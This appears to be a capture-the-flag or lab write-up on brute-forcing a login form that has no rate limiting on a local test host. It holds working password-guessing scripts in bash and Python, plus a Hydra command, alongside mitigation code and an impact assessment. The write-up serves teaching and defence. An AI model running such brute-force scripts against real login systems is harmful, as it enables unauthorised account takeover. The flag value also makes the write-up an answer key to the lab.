


# Breach #4: Brute Force Attack on Login Form

## Vulnerability Type
**Brute Force Attack - No Rate Limiting**
- OWASP: A07:2021 - Identification and Authentication Failures
- CWE-307: Improper Restriction of Excessive Authentication Attempts

## How We Found It

### Discovery: Signin Page
URL: `http://192.168.64.2/index.php?page=signin`

The page provides a simple login form with username and password fields.



### Step 1: Testing Common Credentials
We attempted common username/password combinations:

**Common usernames tried**:
- `admin`
- `root`
- `administrator`
- `user`
- `guest`

**Test with common password**:
```bash
curl "http://192.168.64.2/index.php?page=signin&username=admin&password=password&Login=Login"
```

Result: Failed (WrongAnswer.gif displayed)

### Step 2: Automated Brute Force Attack
Since there was no rate limiting or account lockout, we performed a brute force attack using common password lists.

**Password List Sources**:
1. **Wikipedia**: [List of the most common passwords](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)
2. **SecLists**: [darkweb2017_top-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/darkweb2017_top-1000.txt)
3. **RockYou**: Famous password leak database

**Top 20 Most Common Passwords** (from Wikipedia/SplashData research):
```
1.  123456
2.  password
3.  12345678
4.  qwerty
5.  123456789
6.  12345
7.  1234
8.  111111
9.  1234567
10. dragon
11. 123123
12. baseball
13. iloveyou
14. trustno1
15. 1234567890
16. sunshine
17. master
18. shadow      ← This one works!
19. ashley
20. bailey
```

### Step 3: Success!
**Valid Credentials Found**:
- Username: `admin`
- Password: `shadow`
- Attempt: #18 (out of top 20)



**Flag**: `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`

### Observations

**No Security Measures Detected**:
- ❌ No rate limiting
- ❌ No account lockout after failed attempts
- ❌ No CAPTCHA
- ❌ No delay between attempts
- ❌ No IP-based blocking
- ❌ No 2FA (Two-Factor Authentication)

**Attack Speed**:
- Attempts per second: ~10 (with 0.1s delay)
- Time to find password: ~2 seconds
- Without delay: Could test 1000+ passwords per second

## How to Exploit

### Manual Exploitation

```bash
# Test the discovered credentials
curl "http://192.168.64.2/index.php?page=signin&username=admin&password=shadow&Login=Login" | grep -i flag
```

### Automated Brute Force Script

**Bash Script** (`bruteforce.sh`):
```bash
#!/bin/bash

TARGET="http://192.168.64.2/index.php?page=signin"

USERNAMES=("admin" "root" "user" "administrator")
PASSWORDS=("123456" "password" "qwerty" "shadow" "dragon")

for username in "${USERNAMES[@]}"; do
    for password in "${PASSWORDS[@]}"; do
        RESPONSE=$(curl -s "${TARGET}&username=${username}&password=${password}&Login=Login")

        if echo "$RESPONSE" | grep -q "The flag is"; then
            echo "✅ SUCCESS: $username:$password"
            echo "$RESPONSE" | grep -oP 'The flag is : \K[a-f0-9]+'
            exit 0
        else
            echo "❌ Failed: $username:$password"
        fi

        sleep 0.1  # Small delay
    done
done
```

**Python Script** (more sophisticated):
```python
import requests
import time

TARGET = "http://192.168.64.2/index.php"

# Top passwords from SecLists
with open('darkweb2017_top-1000.txt', 'r') as f:
    passwords = [line.strip() for line in f]

usernames = ['admin', 'root', 'user', 'administrator']

for username in usernames:
    for i, password in enumerate(passwords):
        params = {
            'page': 'signin',
            'username': username,
            'password': password,
            'Login': 'Login'
        }

        response = requests.get(TARGET, params=params)

        if 'The flag is' in response.text:
            print(f"✅ SUCCESS at attempt {i+1}")
            print(f"   Username: {username}")
            print(f"   Password: {password}")

            # Extract flag
            import re
            flag = re.search(r'The flag is : ([a-f0-9]+)', response.text)
            if flag:
                print(f"   Flag: {flag.group(1)}")

            exit(0)
        else:
            print(f"❌ Attempt {i+1}: {username}:{password}")

        time.sleep(0.1)  # Rate limiting
```

### Using Hydra (Professional Tool)

```bash
# Install hydra
sudo apt-get install hydra

# Create password list
cat > passwords.txt << EOF
123456
password
shadow
dragon
EOF

# Run hydra
hydra -l admin -P passwords.txt \
    http-get-form \
    "192.168.64.2:80:/?page=signin&username=^USER^&password=^PASS^&Login=Login:WrongAnswer.gif"
```

## Security Issues

### 1. No Rate Limiting
**Problem**: Unlimited login attempts allowed from a single IP.

**Impact**:
- Attackers can try thousands of passwords per minute
- Brute force attacks are trivially easy
- No time penalty for failed attempts

**Test**:
```bash
# Test 100 passwords in ~10 seconds (with 0.1s delay)
# Test 1000 passwords in ~100 seconds
# Test 10000 passwords in ~16 minutes
```

### 2. Weak Password
**Problem**: Password "shadow" is #18 on most common passwords list.

**Why it's weak**:
- Single dictionary word
- No numbers or special characters
- Appears in all password cracking wordlists
- Part of common passwords datasets

**Password strength comparison**:
```
❌ Weak:   shadow
❌ Weak:   Shadow123
⚠️  Medium: Sh@dow123
✅ Strong: X9$mK2#nP7@wL5
```

### 3. No Account Lockout
**Problem**: Account is never locked after multiple failed attempts.

**Standard practice**:
- Lock after 3-5 failed attempts
- Temporary lockout (15 minutes)
- Or progressive delay (1s, 2s, 4s, 8s...)

### 4. No CAPTCHA
**Problem**: No mechanism to prevent automated attacks.

**Why CAPTCHA helps**:
- Slows down automated scripts
- Increases cost of brute force
- Deters casual attackers

### 5. Predictable Username
**Problem**: "admin" is the most common administrator username.

**Alternatives**:
- Use email addresses instead of usernames
- Generate random usernames
- Don't reveal if username exists

## Mitigation

### 1. Implement Rate Limiting

**Application Level** (PHP):
```php
session_start();

// Track failed attempts
if (!isset($_SESSION['failed_attempts'])) {
    $_SESSION['failed_attempts'] = 0;
    $_SESSION['last_attempt'] = time();
}

// Check if too many attempts
if ($_SESSION['failed_attempts'] >= 5) {
    $time_passed = time() - $_SESSION['last_attempt'];

    if ($time_passed < 900) {  // 15 minutes
        $wait_time = 900 - $time_passed;
        die("Too many failed attempts. Try again in $wait_time seconds.");
    } else {
        // Reset after cooldown
        $_SESSION['failed_attempts'] = 0;
    }
}

// Process login
if (login_failed()) {
    $_SESSION['failed_attempts']++;
    $_SESSION['last_attempt'] = time();
}
```

**Web Server Level** (Nginx):
```nginx
# Rate limit login endpoint
limit_req_zone $binary_remote_addr zone=login:10m rate=5r/m;

location /index.php {
    if ($arg_page = "signin") {
        limit_req zone=login burst=3 nodelay;
    }
}
```

**Web Application Firewall** (ModSecurity):
```apache
# Detect brute force
SecAction "id:1,phase:1,nolog,pass,initcol:ip=%{REMOTE_ADDR}"

<LocationMatch "/signin">
    SecRule RESPONSE_BODY "WrongAnswer" \
        "phase:4,id:2,setvar:ip.login_failures=+1,expirevar:ip.login_failures=60"

    SecRule IP:LOGIN_FAILURES "@gt 5" \
        "phase:1,id:3,deny,status:403,msg:'Brute force detected'"
</LocationMatch>
```

### 2. Implement Account Lockout

```php
// Database schema
CREATE TABLE login_attempts (
    username VARCHAR(255),
    ip_address VARCHAR(45),
    attempt_time TIMESTAMP,
    success BOOLEAN
);

// Check if account is locked
function isAccountLocked($username) {
    $stmt = $pdo->prepare("
        SELECT COUNT(*) as attempts
        FROM login_attempts
        WHERE username = ?
        AND success = FALSE
        AND attempt_time > DATE_SUB(NOW(), INTERVAL 15 MINUTE)
    ");
    $stmt->execute([$username]);
    $result = $stmt->fetch();

    return $result['attempts'] >= 5;
}

// Log attempt
function logLoginAttempt($username, $ip, $success) {
    $stmt = $pdo->prepare("
        INSERT INTO login_attempts (username, ip_address, success)
        VALUES (?, ?, ?)
    ");
    $stmt->execute([$username, $ip, $success]);
}

// Usage
if (isAccountLocked($username)) {
    die("Account temporarily locked due to too many failed attempts.");
}
```

### 3. Add CAPTCHA

**Google reCAPTCHA v3**:
```html
<!-- HTML -->
<form method="POST">
    <input type="text" name="username">
    <input type="password" name="password">
    <script src="https://www.google.com/recaptcha/api.js"></script>
    <div class="g-recaptcha" data-sitekey="your-site-key"></div>
    <button type="submit">Login</button>
</form>
```

```php
// PHP verification
function verifyCaptcha($response) {
    $secret = "your-secret-key";
    $verify = file_get_contents(
        "https://www.google.com/recaptcha/api/siteverify?secret={$secret}&response={$response}"
    );
    $data = json_decode($verify);

    return $data->success;
}

if (!verifyCaptcha($_POST['g-recaptcha-response'])) {
    die("CAPTCHA verification failed");
}
```

### 4. Enforce Strong Password Policy

```php
function validatePassword($password) {
    $errors = [];

    // Minimum length
    if (strlen($password) < 12) {
        $errors[] = "Password must be at least 12 characters";
    }

    // Must contain uppercase
    if (!preg_match('/[A-Z]/', $password)) {
        $errors[] = "Password must contain uppercase letter";
    }

    // Must contain lowercase
    if (!preg_match('/[a-z]/', $password)) {
        $errors[] = "Password must contain lowercase letter";
    }

    // Must contain number
    if (!preg_match('/[0-9]/', $password)) {
        $errors[] = "Password must contain number";
    }

    // Must contain special character
    if (!preg_match('/[^A-Za-z0-9]/', $password)) {
        $errors[] = "Password must contain special character";
    }

    // Check against common passwords
    $common_passwords = file('common-passwords.txt', FILE_IGNORE_NEW_LINES);
    if (in_array(strtolower($password), array_map('strtolower', $common_passwords))) {
        $errors[] = "Password is too common";
    }

    return $errors;
}
```

### 5. Implement Two-Factor Authentication (2FA)

```php
// Using Google Authenticator library
use PHPGangsta\GoogleAuthenticator;

$ga = new GoogleAuthenticator();

// Generate secret for user
$secret = $ga->createSecret();

// Generate QR code for user to scan
$qrCodeUrl = $ga->getQRCodeGoogleUrl('YourApp', $secret);

// Verify code during login
$code = $_POST['2fa_code'];
$valid = $ga->verifyCode($secret, $code, 2);  // 2 = 2*30sec clock tolerance

if (!$valid) {
    die("Invalid 2FA code");
}
```

### 6. Add Progressive Delays

```php
function getLoginDelay($failed_attempts) {
    // Progressive delay: 0s, 1s, 2s, 4s, 8s, 16s...
    if ($failed_attempts == 0) return 0;

    return min(pow(2, $failed_attempts - 1), 30);  // Max 30 seconds
}

$delay = getLoginDelay($_SESSION['failed_attempts']);
if ($delay > 0) {
    sleep($delay);
}
```

### 7. Don't Reveal Account Existence

```php
// ❌ Bad: Reveals if username exists
if (!userExists($username)) {
    die("Username not found");
}

if (!passwordMatches($username, $password)) {
    die("Incorrect password");
}

// ✅ Good: Generic error message
if (!userExists($username) || !passwordMatches($username, $password)) {
    die("Invalid username or password");
}
```

## Impact Assessment

### CVSS 3.1 Score: 8.1 (High)

**Attack Vector**: Network (AV:N)
**Attack Complexity**: Low (AC:L)
**Privileges Required**: None (PR:N)
**User Interaction**: None (UI:N)
**Scope**: Unchanged (S:U)
**Confidentiality**: High (C:H)
**Integrity**: High (I:H)
**Availability**: Low (A:L)

### Real-World Impact

**Successful brute force enables**:
- Full account takeover
- Access to sensitive user data
- Ability to perform actions as the user
- Potential lateral movement in the system

**Attack Statistics** (hypothetical):
```
Passwords tried: 18
Time taken: 2 seconds
Success rate: 100%
Cost to attacker: $0
```

## Password List Sources

### Primary Sources

1. **Wikipedia - List of the most common passwords**
   - URL: https://en.wikipedia.org/wiki/List_of_the_most_common_passwords
   - Based on: SplashData annual reports, data breach analysis
   - Updated: Annually

2. **SecLists by Daniel Miessler**
   - Repository: https://github.com/danielmiessler/SecLists
   - File: `Passwords/Common-Credentials/darkweb2017_top-1000.txt`
   - File: `Passwords/Common-Credentials/10-million-password-list-top-1000000.txt`
   - License: MIT

3. **RockYou Password List**
   - Source: 2009 RockYou data breach (32 million passwords)
   - URL: https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
   - Note: Most famous password list in security research

4. **Have I Been Pwned**
   - URL: https://haveibeenpwned.com/Passwords
   - Contains: 600+ million passwords from real breaches
   - API: Available for checking if password is compromised

### Research Papers

- **"The Tangled Web of Password Reuse"** (2014) - Carnegie Mellon
- **"Fast, Lean, and Accurate: Modeling Password Guessability Using Neural Networks"** (2016)
- **"Next Gen PCAP: Next Gen PCAP: Packet Capture at 100Gbps"** - USENIX

## References

- [OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)
- [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)
- [NIST Digital Identity Guidelines](https://pages.nist.gov/800-63-3/)

## Tools Used

- **curl**: Command-line testing
- **Custom bash script**: Automated brute force
- **SecLists**: Password wordlists
- **Wikipedia**: Common passwords research

---
**Flag**: `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`
